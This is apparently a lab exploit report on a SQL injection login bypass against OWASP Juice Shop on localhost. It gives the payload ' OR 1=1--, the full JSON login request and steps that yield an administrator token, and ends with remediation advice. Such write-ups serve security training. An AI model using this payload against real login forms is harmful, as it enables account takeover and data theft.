



# Exploit Report: SQL Injection (SQLi) Login Bypass

## Vulnerability Overview

* **Vulnerability Type:** SQL Injection (OWASP A03:2021 - Injection)
* **Target Endpoint:** User Login API (`http://localhost:3000/rest/user/login`)
* **Vulnerable Parameter:** `email` (JSON Payload field)
* **Severity:** Critical
* **Exploitation Status:** Successfully Exploited

---

## Technical Description

SQL Injection occurs when user-supplied input is directly concatenated into a database query without proper sanitization, escaping, or parameterization. In OWASP Juice Shop, the authentication endpoint fails to sanitize the `email` input field before evaluating the SQL statement on the SQLite backend. An attacker can inject SQL control characters to manipulate query execution logic and bypass password validation entirely.

---

## Proof of Concept & Exploitation Steps

### Step 1: Payload Construction

The following payload is injected into the email field to terminate the original SQL string literal, force the query evaluation to always return `true`, and comment out the remainder of the password verification query:

```text
' OR 1=1--
```

### Step 2: HTTP Request Injection

When submitting the authentication form on the login UI (`/#/login`), the browser sends the following JSON payload to the backend API:

```json
POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
  "email": "' OR 1=1--",
  "password": "anypassword"
}

```

### Step 3: Execution & Verification

1. Navigate to `http://localhost:3000/#/login` in the browser.
2. Enter `' OR 1=1--` into the Email input field and any arbitrary string (e.g., `a`) into the Password field.
3. Click the **Log in** button.
4. The backend evaluates the query as `TRUE`, matching the first record in the `Users` table (the Administrator account `admin@juice-sh.op`).
5. A JSON Web Token (JWT) is returned, granting full administrator access to the session.

---

## Evidence & Screenshots


*Figure 1: Injecting the classic SQLi payload into the email input field on the login page.*


*Figure 2: Successful authentication bypass resulting in an active administrator session.*


*Figure 3: Intercepting the login request in Burp Suite showing the injected JSON payload and the 200 OK response with JWT token and email.*

---

## Real-World Impact

* **Account Takeover:** Full compromise of administrative and user accounts without requiring valid credentials.
* **Data Exfiltration:** Attackers can expand SQLi to dump entire database tables (users, passwords, credit card data, purchase histories).
* **Data Tampering & Destruction:** Potential for inline modification or deletion of database contents depending on database user permissions.

---

## Remediation & Mitigation

### 1. Use Parameterized Queries (Prepared Statements)

Never concatenate untrusted input into SQL query strings. Utilize parameterized queries via the Object-Relational Mapping (ORM) or database library:

```javascript
// Secure Implementation (Sequelize / Prepared Statement)
models.User.findOne({
  where: {
    email: req.body.email,
    password: security.defaultHashedPassword(req.body.password)
  }
});

```

### 2. Input Validation & Whitelisting

Enforce strict server-side validation on user input (e.g., ensuring the email parameter conforms strictly to valid email format standards before processing).

### 3. Principle of Least Privilege

Restrict database user account permissions so the web application cannot execute administrative commands or alter system tables.

---